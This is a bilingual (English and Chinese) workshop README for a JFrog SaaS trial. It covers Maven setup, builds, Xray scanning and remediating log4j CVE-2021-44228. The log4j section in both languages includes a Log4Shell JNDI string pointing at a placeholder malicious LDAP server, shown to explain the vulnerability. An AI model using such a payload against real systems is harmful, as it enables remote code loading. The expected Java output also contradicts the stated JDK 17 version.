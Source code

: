 # 🏗️ JFrog SaaS Trial Workshop Guide

<details>
<summary>English</summary>

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites

### JDK 17 Installation
1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)

### Set Environment Variables

#### JAVA_HOME
1. Open System Properties (Win + S → "Environment Variables")
2. Click "Environment Variables" → "New" under System variables
3. Set:
   ```
   Variable name: JAVA_HOME
   Variable value: C:\Program Files\Java\jdk-17
   ```
4. In System variables, select "Path" → "Edit"
5. Click "New" and add:
   ```
   %JAVA_HOME%\bin
   ```
6. Click "OK" to save

### Verify Installation
   ```bash
   # Check Java version
   java -version
   # Check Java compiler
   javac -version
   ```
   Expected output:
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```

### Maven 3.6.3
1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - Download the Binary zip archive (e.g., `apache-maven-3.6.3-bin.zip`)
2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME Environment variables
1. In System variables, click "New"
2. Set:
   ```
   Variable name: MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. In "Path" variable, click "Edit"
4. Click "New" and add:
   ```
   %MAVEN_HOME%\bin
   ```
5. Click "OK" on all windows to save

> **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.

#### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   Expected output:
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 1.8.0_442, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
   Select "14-Day Free Trial", it will give you your own JFrog Platform.
   ![alt text](images/trial.png)

2. **Select AWS Region**
   - Choose either AWS Singapore or Tokyo region
   - This will provide better network performance for users in Asia
   - The region selection is available during the trial signup process

3. You will get an email containing the login credentials for the JFrog platform

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `.jfrog/projects/maven.yaml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**

</details>

<details>
<summary>繁體中文</summary>

歡迎參加 **JFrog SaaS 試用工作坊！** 🎓  
本指南將幫助您開始使用 JFrog SaaS 並練習構建 Maven 項目。

## 📝 前置需求

### JDK 17 安裝
1. **安裝 JDK**
   - 從 [OpenJDK](https://jdk.java.net/archive/) 下載並安裝 JDK

### 設置環境變數

#### JAVA_HOME
1. 打開系統屬性（Win + S → "環境變數"）
2. 點擊"環境變數" → 在系統變數下點擊"新建"
3. 設置：
   ```
   變數名稱：JAVA_HOME
   變數值：C:\Program Files\Java\jdk-17
   ```
4. 在系統變數中，選擇"Path" → "編輯"
5. 點擊"新建"並添加：
   ```
   %JAVA_HOME%\bin
   ```
6. 點擊"確定"保存

### 驗證安裝
   ```bash
   # 檢查 Java 版本
   java -version
   # 檢查 Java 編譯器
   javac -version
   ```
   預期輸出：
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```

### Maven 3.6.3
1️⃣ **下載 Maven**
   - 訪問 [Apache Maven 下載頁面](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - 下載二進制 zip 檔案（例如：`apache-maven-3.6.3-bin.zip`）
2️⃣ **解壓 Maven**
   - 將下載的 ZIP 檔案解壓到目錄，例如：
     ```
     C:\Program Files\Apache\Maven
     ```
   - 您的 Maven 資料夾結構應該如下：
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME 環境變數
1. 在系統變數中，點擊"新建"
2. 設置：
   ```
   變數名稱：MAVEN_HOME
   變數值：C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. 在"Path"變數，點擊"編輯"
4. 點擊"新建"並添加：
   ```
   %MAVEN_HOME%\bin
   ```
5. 點擊所有視窗的"確定"保存

> **注意：** 設置環境變數後，您需要打開新的命令提示字元才能使更改生效。

#### 驗證安裝
   ```bash
   # 打開新的命令提示字元並運行：
   mvn -version
   ```
   預期輸出：
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 1.8.0_442, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 開始使用

### 1. 申請 JFrog SaaS 試用
1. [申請 JFrog SaaS 試用](https://jfrog.com/start-free/)  
   選擇"14 天免費試用"，它將為您提供自己的 JFrog 平台。
   ![alt text](images/trial.png)

2. **選擇 AWS 區域**
   - 選擇 AWS 新加坡或東京區域
   - 這將為亞洲用戶提供更好的網絡性能
   - 區域選擇在試用註冊過程中可用

3. 您將收到一封包含 JFrog 平台登入憑證的電子郵件

### 2. 克隆項目
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. 創建 Maven 倉庫
![img_6.png](images/img_6.png)
1. 登入 JFrog SaaS 平台
2. 點擊**快速倉庫創建**（右上角）
3. 選擇 **Maven** 並創建：
   - 本地倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 遠程倉庫：`sample-maven-remote`
   - 虛擬倉庫：`sample-libs-snapshot` `sample-libs-release`

### 4. 配置 JFrog CLI
1. [下載 JFrog CLI](https://jfrog.com/getcli/)
2. 配置您的環境：
   ```shell
   jf c add saas
   ```
   按照提示輸入：
   - JFrog 平台 URL：`https://<YOUR_DOMAIN>.jfrog.io`
   - 用戶名
   - 密碼或參考令牌（從個人資料 → 編輯個人資料 → 生成身份令牌）

### 5. 配置 Maven
```shell
cd maven-sample
jf mvnc
```
這將生成指向您的 SaaS 倉庫的 `.jfrog/projects/maven.yaml`。

### 6. 構建和部署
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. 驗證部署
- 在 **Artifactory → Artifacts** 中檢查已部署的文件
- 在 **Builds** 部分查看構建信息

### 8. 啟用 Xray 掃描
1. 轉到 **JFrog Xray → Index Resource**
2. 添加到監視：
   - 倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 構建：`sample-maven-build`

### 了解 log4j 漏洞
檢測到 log4j 漏洞（CVE-2021-44228）是因為您的項目使用了 log4j-core 2.14.0。但是，只有在以下情況下才會被利用：

1. 使用易受攻擊的日誌模式：
   ```java
   // 易受攻擊
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // 安全
   logger.info("User logged in: {}", username);
   ```

2. **並且**當：
   - 記錄用戶控制的輸入
   - 輸入包含 `${jndi:ldap://...}` 模式
   - 應用程序可以訪問惡意服務器

這解釋了為什麼 Xray 顯示許多誤報 - 代碼中存在漏洞，但在您的使用場景中無法被利用。

### 9. 修復 log4j 漏洞

#### 9.1 審查漏洞
JFrog 高級安全已將此 log4j 包識別為真實漏洞。您可以在安全報告中查看詳細證據。
![img_1.png](images/img_1.png)

#### 審查誤報結果
![img_5.png](images/img_5.png)
> **86% 的嚴重/高風險漏洞是誤報**

![img_4.png](images/img_4.png)

#### 9.2 阻止易受攻擊的版本
![img_7.png](images/img_7.png)
1. **創建阻止條件：**  
   管理員 → 策展設置 → 創建條件  
   ![img.png](images/img.png)

2. **創建策略：**  
   ![img_2.png](images/img_2.png)

3. **清理緩存：**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **驗證阻止：**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **修復：更新 log4j 版本**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **重新構建：**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

構建應該成功，問題已修復。

7. **漏洞修復趨勢分析：**
平台 → Xray → 掃描列表 → 構建
![alt text](images/buildList.png)

構建應該成功完成，確認安全問題已修復。

> **祝您構建愉快，保持安全！🚀**

</details>